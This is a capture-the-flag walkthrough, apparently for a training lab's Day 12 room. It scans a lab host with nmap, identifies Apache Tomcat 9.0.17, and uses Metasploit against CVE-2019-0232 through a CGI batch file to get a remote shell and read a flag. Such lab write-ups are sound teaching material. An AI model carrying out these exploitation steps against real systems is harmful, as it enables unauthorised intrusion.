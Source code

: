 # Day12

## Ready, set, elf.

Deploy the machine and go through the given information!

First step, let’s run an nmap scan! Here i am running this with ***-Pn -A*** so that it shows the versions also

`nmap -Pn -A 10.10.183.54`

![57](https://user-images.githubusercontent.com/83836972/122556469-29fc4f00-d059-11eb-9544-ceb3737b4cf1.PNG)

Also, in front of ***http-proxy***,  ***Apache Tomcat 9.0.17*** will be shown which is the ***type and version of web-server***

Alternative to this is, you can have a look at port 8080, which will show a webserver like below:

![58](https://user-images.githubusercontent.com/83836972/122556473-2ec10300-d059-11eb-81bb-0c87cef367ff.PNG)

Here the answer to the question 1 is done, let's move onto the next one!

For the next question, you've to ***google the CVE***, and it's very easy to find, so surf the net!

For the next questions, open ***Metasploit***

Search for CVE number, i.e. search ***2019-0232***

Now we must ***set up our hosts***. This can be done pretty simply by setting LHOST to the IP of our PC and the RHOSTS to the IP of the target machine:

`set LHOST 10.17.5.246`
`set RHOST 10.10.183.54`
`set TARGETURI http://10.10.183.54/cgi-bin/elfwhacker.bat`

After setting the hosts, just ***run*** that using `run` and also to use system commands on host, we'll use ***shell***, which is also written in the dossier, so just give the command `shell`.

If you search for the directories using `dir`, you'll see the following:

![59](https://user-images.githubusercontent.com/83836972/122556484-341e4d80-d059-11eb-9e14-0b190b408f23.PNG)

Now just, get the flag using `type flag1.txt`



